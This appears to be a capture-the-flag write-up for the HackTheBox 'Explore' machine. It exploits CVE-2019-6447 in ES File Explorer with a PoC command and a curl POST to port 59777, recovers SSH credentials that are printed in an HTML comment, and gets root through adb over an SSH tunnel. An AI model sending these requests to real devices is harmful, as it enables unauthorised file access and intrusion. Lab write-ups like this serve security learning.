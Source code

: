![](explore_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.247 explore.htb

**nmap scan:**
```bash
PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
34153/tcp open  unknown
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-server-header: ES Name Response Server
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

# Foothold

## ES File Explorer Open Port Vulnerability

**[CVE-2019–6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447):** The ES File Explorer File Manager application through 4.1.9.7.4 for Android allows remote attackers to read arbitrary files or execute applications via TCP port 59777 requests on the local Wi-Fi network. This TCP port remains open after the ES application has been launched once, and responds to unauthenticated application/json data over HTTP.

* Exploit PoC: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
* [Analysis of ES File Explorer Security Vulnerability(CVE-2019–6447)](https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566)

```bash
python es_poc.py --cmd getDeviceInfo --ip 10.10.10.247
```

![](screenshots/es-poc.png)

while exploring ES File Explorer server commands found an intresting file with `listPics` 

![](screenshots/creds-in-img.png)

this PoC script only sending POST request with json data to the server with commands that server can execute, we can simply do this with curl. *demonstrated in the [PoC](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)*

```bash
❯ curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://10.10.10.247:59777
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
]
```

![](dump/creds.jpg)
<!--kristi:Kr1sT!5h@Rp3xPl0r3!-->

and get the ssh creds.

# Privesc

## `adb` Root

Device is running adb server
```bash
:/sdcard $ ss -lntp
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN      0      4            *:5555                     *:*
```

It is listening on all networks but somehow it is not working remotely.

Using ssh tunnel to forward port and run adb to get root.

![](screenshots/adb-root.png)

root flag found in `/data`
```bash
x86_64:/ # find / -type f -name root.txt 2>/dev/null
/data/root.txt
```